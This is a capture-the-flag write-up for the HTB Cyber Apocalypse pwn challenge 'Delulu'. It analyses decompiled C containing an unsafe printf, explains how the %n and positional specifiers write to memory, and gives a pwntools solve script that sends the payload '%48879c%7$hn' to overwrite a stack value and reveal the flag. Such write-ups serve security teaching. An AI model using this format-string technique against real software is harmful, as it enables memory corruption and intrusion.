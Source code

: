 # Delulu - pwn
#### HTB Cyber Apocalypse

#format-string
## Initial Analysis
Opening this up in Ghidra, we are greeted with this in the decompilation view.
``` c
local_48 = 0x1337babe;
local_40 = &local_48;
local_38 = 0;
local_30 = 0;
local_28 = 0;
local_20 = 0;
read(0,&local_38,0x1f);
printf("\n[!] Checking.. ");
printf((char *)&local_38);
if (local_48 == 0x1337beef) {
delulu();
}
else {
error("ALERT ALERT ALERT ALERT\n");
}
```

The important part is the check:
``` c
if (local_48 == 0x1337beef) {
delulu();
}
```

Looking into the delulu function, it prints the flag
``` c
local_14 = open("./flag.txt",0);
if (local_14 < 0) {
perror("\nError opening flag.txt, please contact an Administrator.\n");
				/* WARNING: Subroutine does not return */
exit(1);
}
printf("You managed to deceive the robot, here\'s your new identity: ");
while( true ) {
sVar1 = read(local_14,&local_15,1);
if (sVar1 < 1) break;
fputc((int)local_15,stdout);
}
```

From this initial analysis we can determine a few things:
- `local48` is set to `0x1337babe`
- setting `local_48` to `0x1337beef` prints the flag
- there is direct user input into the format specifier of printf `printf((char *)&local_38);` which enables a [format string] attack

## Exploitation
Because we have control over the format string in printf, we can utilize a format string attack. With this we can write data to a location, and fortunately for us, we also have a pointer to the location we are trying to write to.
``` c
local_48 = 0x1337babe;
local_40 = &local_48;
```

So `local_40` is holding a pointer to `local_48`. Why is this important? When writing bytes to an address using printf, you need the address of the location you are writing to. This is a pointer.

How do we write data with printf? We can use the n specifier. The n specifier will write the number of bytes that have been written.
``` c
int data_out;
printf("Here's just a random string.%n\n", &data_out);
printf("Bytes written: %d\n", data_out);
```
```
Here's just a random string.
Bytes written: 28
```

### What to Write
We can use the width specifier in format strings in combination with the character specifier to write specific number of bytes. Since this binary is x64 architecture, data is stored in little endian. So the value `0x1337babe` is represented in the stack as:
```
0048: be ba 37 13 00 00 00 00
```

With setting the value, we want to set it to `0x1337beef`
```
0048: ef be 37 13 00 00 00 00
```

Since we are writing an integer, when it writes data, it will store it in little integer, so the integer that we want to write is actually going to be `0xbeef` which when stored on the stack will look like `0xefbe`.

Converting hex -> dec will look like `0xbeef`  -> `48879`.

With that we can write our value using `%48879c%n`.

### Where to Write
So if you tried that payload it would not have worked because we are not writing to the right place. We have a pointer to the address we want to write `local_40` points to `local_48`. Positional mapping:
- 1 - rsi
- 2 - rdx
- 3 - rcx
- 4 - r8
- 5 - r9
- 6 - local_48
- 7 - local_40

So we want the positional to be 7.

Combining those two concepts we get `%48879c%7$hn`

### Solve Script
```
from pwn import *
from ctfkit.bp import *

context.binary = './delulu'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

tpwn.HOST = ""
tpwn.GDB_SCRIPT = ""

def main():
  parse_args()
  proc = get_process()

  format_string = "%48879c%7$hn"
  proc.sendline(format_string)
  proc.interactive()

if __name__ == '__main__':
  main()
```